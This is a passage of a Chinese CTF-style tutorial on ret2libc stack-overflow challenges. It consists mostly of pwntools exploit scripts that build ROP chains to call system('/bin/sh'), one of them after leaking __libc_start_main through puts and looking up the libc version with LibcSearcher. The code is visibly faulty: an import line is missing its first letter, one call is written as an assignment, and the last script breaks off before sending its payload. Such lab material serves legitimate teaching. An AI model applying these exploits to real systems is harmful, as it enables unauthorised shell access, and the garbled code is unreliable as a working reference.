 </br>我们还可以这样写：
```
rom pwn import *
rop = ROP('./ret2libc2')
c = process('./ret2libc2')

elf = ELF('./ret2libc2')

payload = ''
payload += 'a'*112
payload += p32(elf.plt['gets'])+p32(rop.search(8).address)+p32(elf.bss()+0x100)+p32(elf.plt['system'])+p32(0x0)+p32(elf.bss()+0x100)

c.sendline(payload)
c.sendline('/bin/sh')
c.interactive()
```
其中，rop.search(8).addrss是pwntools自带寻找gadgets的方法。

### 0x05 ret2libc3
这道题还是开启了NX保护，打开ida,情况如下：
![](19.png)
</br>这次secure上无system函数，搜索也没有'/bin/sh'。所以本题我们要利用libc泄露。</br>
大致思路</br>
泄露 __libc_start_main 地址
</br>
获取 libc 版本
</br>
获取 system 地址与 /bin/sh 的地址
</br>
再次执行源程序
</br>
触发栈溢出执行 system(‘/bin/sh’)
</br>
<b>exp:</b>
```
from pwn import *
from LibcSearcher import LibcSearcher

c = process('./ret2libc3')
elf = ELF('./ret2libc3') #静态加载ELF文件

put_plt = elf.plt['puts'] #获取指定文件的plt条目
libc_start_main_got = elf.got['__libc_start_main'] #获取指定文件的got条目
main = elf.symbols['main'] #获取指定文件的函数地址

print('leak libc_start_main_got addr and return to main again')
payload = ''
payload += 'a'*112
payload += p32(put_plt)+p32(libc_start_main_got)+p32(main) #先使用plts_plt函数打印出main函数在got表中的真实地址
c.sendlineafter = ('Can you find it !?',payload)

print('get the related addr')
libc_start_main_addr = u32(c.recv()[0:4]) #获取main函数的真实地址
libc = LibcSearcher('__libc_start_main',libc_start_main_addr) #获取libc
libcbase = libc_start_main_addr-libc.dump('__libc_start_main') #获取libc基地址
system_addr = libcbase+libc.dump('system') #获取system地址
bin_sh_addr = libcbase+libc.dump('str_bin_sh') #获取‘/bin/sh’字符串地址

print('get shell')
payload = ''
payload += 112*'a'
payload += p32(system_addr)+p32(0xdeadbeef)+p32(bin_sh_addr)
```